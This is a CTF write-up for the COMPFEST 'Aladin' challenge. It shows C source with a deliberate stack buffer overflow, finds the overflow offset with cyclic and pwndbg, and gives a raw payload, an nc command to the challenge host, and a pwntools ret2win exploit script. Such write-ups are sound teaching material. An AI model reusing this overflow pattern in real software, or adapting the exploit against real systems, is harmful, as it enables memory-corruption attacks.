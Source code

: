 # COMPFEST CTF HACKER CLASS WRITEUP
## ALADIN

### Source Code
In this challenge, we are provided with the source code and binary file to exploit.

```c
#include <stdio.h>
#include <stdlib.h>

/* gcc -Wl,-z,relro,-z,now -no-pie -fno-stack-protector chall.c -o chall */

void win(int mantra)
{
    puts("wow! mantra kamu benar! sebagai hadiahnya, jin akan memberikan kamu suatu mantra lain yang dapat kamu gunakan untuk menang ctf compfest (semoga beneran).");
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
        printf("File flag.txt does not exist! >:(");
        return 69;
    }
    char flag[0x100];
    fgets(flag, 0x100, f);
    puts(flag);
}

void vuln()
{
    char mantra[32];

    puts("kamu menemukan sebuah gua... di dalam gua tersebut ada jin yang bisa memberi kamu akses jadi pemenang ctf compfest 16...");
    puts("tapi syaratnya kamu harus bisa menyebutkan mantra sakti yang diinginkan jin tersebut...\n");
    puts("jin: 'tenang saja... soal ini tidak toksik seperti soal tahun lalu... tapi kamu harus menyebutkan mantra sakti...'\n");
    printf("sebutkan mantra sakti tersebut: ");

    read(0, mantra, 0x200);

    puts("duar! jin tersebut memproses mantra sakti kamu... apakah kamu akan jadi pemenang ctf compfest 16...?\n");
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    vuln();
    puts("yah, nampaknya mantra kamu masih salah...");
    return 0;
}
```

In the code above, we need to enter the `win()` function, which is not declared in the `main` function. We can exploit the buffer overflow vulnerability and fill the buffer with the address of the `win` function.

### Crafting Payload

We can use a cyclic pattern to determine at which index the buffer overflow occurs.

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/aladin%201.png?raw=true)

Then we input the cyclic pattern into the file's input.

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/aladin%202.png?raw=true)

After providing the input, we can use `pwndbg` to see the offset where the buffer overflow occurs. We can see in `RSP` register that the offset `faaaaaaa` overflows and overwrites the buffer.

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/aladin%203.png?raw=true)

We use the command `cyclic -l faaaaaaa` to find the offset where the overflow occurs and then write our payload to access the `win()` function.

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/aladin%204.png?raw=true)

The command shows that the overflow occurs at offset 40. We can craft a payload like `python2 -c 'print "A" * 40 "<win()address>"'`.

To get the address of the `win` function, we need to disassemble the `win` function using `pwndbg`.

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/win%20disassembe.png?raw=true)

From the above, we find the address of the `win` function is `0x00000000004011d6`.

### Exploitation

To exploit this, we need 40 bytes of padding followed by the address of the `win` function. The payload will look like this:

```python
python2 -c 'print "A" * 40 + "\xd6\x11\x40\x00\x00\x00\x00\x00"' > payload
```

Then we can use `nc` to connect to the target machine and provide the payload.

```bash
nc challenges.ctf.compfest.id 20006 < payload
```

After executing the above, we successfully get the flag.

### Exploit with Python Script (pwn)
```python
from pwn import *

# Specify the remote server address and port
remote_address = 'challenges.ctf.compfest.id'
remote_port = 20006

# Address of the win function
win_address = 0x00000000004011d6

# Create a payload with buffer overflow and win function address
payload = b'A' * 40 + p64(win_address)

# Create a connection to the remote server
io = remote(remote_address, remote_port)

# Send the payload to the program
io.sendline(payload)

# Interact with the shell to get the flag
io.interactive()
```
---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/efidence%20aladin.png?raw=true)

---

Thank you <3.
